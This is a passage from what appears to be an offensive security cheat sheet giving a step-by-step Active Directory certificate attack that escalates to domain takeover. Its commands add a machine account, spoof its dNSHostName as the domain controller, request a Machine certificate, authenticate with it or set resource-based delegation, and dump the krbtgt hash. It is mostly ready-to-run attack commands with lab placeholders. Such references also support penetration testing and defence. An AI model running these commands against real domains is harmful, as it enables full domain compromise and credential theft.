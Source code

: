   ```ps1
  bloodyAD -d lab.local -u username -p 'Password123*' --host 10.10.10.10 get object 'DC=lab,DC=local' --attr ms-DS-MachineAccountQuota 
  ```

* Add a new computer in the Active Directory, by default `MachineAccountQuota = 10`

  ```ps1
  bloodyAD -d lab.local -u username -p 'Password123*' --host 10.10.10.10 add computer cve 'CVEPassword1234*'
  certipy account create 'lab.local/username:Password123*@dc.lab.local' -user 'cve' -dns 'dc.lab.local'
  ```

* [ALTERNATIVE] If you are `SYSTEM` and the `MachineAccountQuota=0`: Use a ticket for the current machine and reset its SPN

  ```ps1
  Rubeus.exe tgtdeleg
  export KRB5CCNAME=/tmp/ws02.ccache
  bloodyAD -d lab.local -u 'ws02$' -k --host dc.lab.local set object 'CN=ws02,CN=Computers,DC=lab,DC=local' servicePrincipalName
  ```

* Set the `dNSHostName` attribute to match the Domain Controller hostname

  ```ps1
  bloodyAD -d lab.local -u username -p 'Password123*' --host 10.10.10.10 set object 'CN=cve,CN=Computers,DC=lab,DC=local' dNSHostName -v DC.lab.local
  bloodyAD -d lab.local -u username -p 'Password123*' --host 10.10.10.10 get object 'CN=cve,CN=Computers,DC=lab,DC=local' --attr dNSHostName
  ```

* Request a ticket

  ```ps1
  # certipy req 'domain.local/cve$:CVEPassword1234*@ADCS_IP' -template Machine -dc-ip DC_IP -ca discovered-CA
  certipy req 'lab.local/cve$:CVEPassword1234*@10.100.10.13' -template Machine -dc-ip 10.10.10.10 -ca lab-ADCS-CA
  ```

* Either use the pfx or set a RBCD on your machine account to takeover the domain

  ```ps1
  certipy auth -pfx ./dc.pfx -dc-ip 10.10.10.10

  openssl pkcs12 -in dc.pfx -out dc.pem -nodes
  bloodyAD -d lab.local  -c ":dc.pem" -u 'cve$' --host 10.10.10.10 add rbcd 'CRASHDC$' 'CVE$'
  getST.py -spn LDAP/CRASHDC.lab.local -impersonate Administrator -dc-ip 10.10.10.10 'lab.local/cve$:CVEPassword1234*'   
  secretsdump.py -user-status -just-dc-ntlm -just-dc-user krbtgt 'lab.local/Administrator@dc.lab.local' -k -no-pass -dc-ip 10.10.10.10 -target-ip 10.10.10.10 
  ```

## Pass-The-Certificate

> Pass the Certificate in order to get a TGT, this technique is used in "UnPAC the Hash" and "Shadow Credential"
